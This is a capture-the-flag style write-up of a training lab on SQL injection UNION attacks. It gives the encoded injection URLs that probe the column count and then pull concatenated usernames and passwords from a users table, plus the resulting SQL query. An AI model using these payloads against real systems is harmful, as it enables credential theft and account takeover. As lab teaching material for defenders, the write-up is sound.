

# Lab: SQL injection UNION attack, retrieving multiple values in a single column
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
This lab shows, that we can concatenate multiple columns of the data type string into one column. First have to check the columns itself again:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,%27a%27%20--
```

So we now know that we have two columns and only one of them contains text. To still get username and password we can concatinate these columns into one and also use a seperator:
```
https://0a2c002e0467b30182a4b1e9009f007c.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,username%20||%20%27;%27%20||%20password%20from%20users%20--
```

This will create a SQL statement like this:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT NULL,username || ';' || password FROM users --
```

As expected we get the users:


To solve the lab we have to login on the website as the administrator.
